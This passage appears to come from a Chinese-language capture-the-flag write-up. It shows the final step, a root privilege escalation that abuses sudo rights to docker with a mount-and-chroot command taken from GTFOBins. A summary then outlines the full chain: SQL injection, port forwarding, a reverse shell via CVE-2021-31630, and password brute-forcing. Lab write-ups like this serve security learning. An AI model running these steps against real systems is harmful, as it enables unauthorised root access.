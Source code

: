 查看特殊命令

```
support@debian:~$ sudo -l
[sudo] password for support: 
Matching Defaults entries for support on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty, timestamp_timeout=1

User support may run the following commands on debian:
    (ALL) /usr/bin/docker
```

- [docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/#sudo)

查看一下容器

![](./images/image-246.png)

```
sudo /usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](./images/image-247.png)

## Summary

`User`：**SQL**注入拿到**www-data**权限，发现**support**用户有服务运行在内网，转发内网端口，通过[cve-2021-31630](https://github.com/thewhiteh4t/cve-2021-31630)反弹**shell**，拿到**support**用户。

`Root`：根据留言得到密码逻辑，爆破后通过**sudo docker**拿到**root.txt**。
